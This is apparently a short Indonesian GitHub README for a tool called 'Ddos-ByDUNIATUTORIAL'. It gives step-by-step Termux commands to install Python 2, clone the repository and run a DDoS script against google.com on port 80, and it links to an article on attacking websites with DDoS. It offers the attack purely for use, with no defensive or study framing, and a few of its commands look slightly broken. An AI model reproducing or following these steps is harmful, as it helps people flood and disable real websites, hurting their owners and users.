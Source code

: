 # Ddos-ByDUNIATUTORIAL
Menggunakan DDOS dengan termux bye DUNIA TUTORIAL

kode perintah 

pkg update && pkg upgrade
pkg git 
pkg python2
git clone https://github.com/Wahyuoktafian/Ddos-ByDUNIATUTORIAL
cd ddos2
python2 ddos.py -s google.com -p 80 -t 135 

supaya lebih jelas bisa baca artikel Cara DDOS Attack Website dengan Termux di Android dengan link di bawah ini
